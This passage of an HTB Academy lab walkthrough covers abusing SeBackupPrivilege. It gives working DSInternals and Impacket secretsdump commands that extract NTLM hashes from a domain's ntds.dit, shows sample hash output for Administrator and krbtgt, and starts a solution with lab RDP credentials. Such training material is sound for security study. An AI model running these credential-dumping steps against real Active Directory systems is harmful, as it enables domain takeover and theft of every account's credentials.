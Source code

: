 ### Method 1: DSInternals Module

#### Extract Specific Account
```powershell
# Import DSInternals module
Import-Module .\DSInternals.psd1

# Get boot key from SYSTEM hive
$key = Get-BootKey -SystemHivePath .\SYSTEM

# Extract administrator account hash
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

# Sample output:
DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
SamAccountName: Administrator
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
```

### Method 2: SecretsDump.py

#### Extract All Domain Hashes
```bash
# Use Impacket secretsdump for complete extraction
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

# Expected output:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Credentials**: `svc_backup:HTB_@cademy_stdnt!`
- **Access Method**: RDP
- **Objective**: Leverage SeBackupPrivilege to obtain flag at `c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt`

### Detailed Step-by-Step Solution

#### 1. RDP Connection
```bash
# Connect via RDP to target (IP will be provided)
xfreerdp /v:[TARGET_IP] /u:svc_backup /p:'HTB_@cademy_stdnt!'
```
